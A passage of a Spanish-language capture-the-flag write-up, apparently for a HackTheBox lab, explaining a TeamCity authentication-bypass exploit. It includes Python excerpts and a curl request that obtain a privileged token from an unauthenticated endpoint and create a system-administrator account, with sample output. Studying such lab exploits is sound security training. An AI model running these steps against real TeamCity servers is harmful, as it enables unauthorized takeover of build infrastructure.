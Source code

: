 En esta parte hace una validacion por si la web tiene SSL, si tiene hace un `curl -K` de lo contrario realiza un curl normal. Luego hace una llamada por POST a `/app/rest/users/id:1/tokens/RPC2` esto te genera un token con privilegios, es ahi donde esta el fallo de TeamCity:

El endpoint `/app/rest/users/id:1/tokens/RPC2` se encuentra expuesto al publico sin requerir autenticacion, de aqui se puede conseguir un token de autenticacion con privilegios elevados.

```python
elif response.status_code == 404:
    print("Token already exists")
    delete_command = f'{curl_command} -X DELETE {delete_token_url}'
    delete_process = subprocess.Popen(delete_command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    delete_process.wait()
    delete_output = delete_process.communicate()
    if delete_process.returncode == 0:
        print("Previous token deleted successfully\nrun this command again for creating new token & admin user.")
    else:
        print("Failed to delete the previous token")
```

no se pueden generar 2 tokens, pero hay una manera de borrar el token actual que generamos con el Metodo `curl -X DELETE`

```python
if token:
    headers = {
        "Authorization": f"Bearer {token}",
        "Content-Type": "application/json"
    }
    random_chars = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(4))
    username = f"city_admin{random_chars}"
    data = {
        "username": username,
        "password": "Main_password!!**",
        "email": "angry-admin@funnybunny.org",
        "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}
    }
```

Luego entramos a esta parte que es la mas interesante, una vez que tengamos el token podemos crear un usuario con privilegios de la siguiente manera, en el PoC agrega las cabezeras `Authorization: Bearer {token}` y `Content-Type: application/json`, este exploit crea un usario aleatorio pasandole caracteres extraños, nosotros vamos a modificar eso. En data vamos a poner el nombre de usuario que nosotros queremos y en password lo mismo. Ya Les Muestro un Oneliner potente en `CURL`

Antes de continuar hay que saber lo siguiente: este metodo solo nos crea un usuario con privilegios pero existe otra manera de la cual nos podemos aprovechar ejecutando comandos desde un endpoint. Esto lo vamos a ver despues

```bash
curl -s -X POST "http://teamcity.runner.htb/app/rest/users/id:1/tokens/RPC2"

<?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="RPC2" creationTime="2024-10-28T14:08:19.584Z" value="eyJ0eXAiOiAiVENWMiJ9.YnJ6SzVjU0l0UmZYWFZtMld3emI4X2NwdTFZ.NTNhNzM2YTUtN2I1NS00M2VkLWIyNDEtOWNkMTkyOGM0NDA2"/>
```
